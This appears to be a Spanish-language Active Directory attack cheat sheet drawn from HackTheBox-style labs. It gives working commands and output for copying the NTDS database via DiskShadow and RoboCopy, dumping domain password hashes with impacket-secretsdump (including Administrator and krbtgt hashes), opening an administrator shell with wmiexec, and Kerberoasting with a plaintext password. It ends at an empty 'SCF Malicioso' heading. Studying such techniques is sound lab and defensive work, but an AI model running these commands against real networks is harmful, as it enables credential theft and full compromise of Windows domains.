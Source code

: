 ### Procesación con DiskShadow

```
diskshadow /s fichero.txt
```

### Copia de RoboCopy

```
robocopy /b z:\windows\ntds . ntds.bak
```

### Dumpeo hashes NT,LM

```
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

### PassTheHash

```
wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator

C:\>
```

### Kerberoasting Attack

```
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request
```

## SCF Malicioso
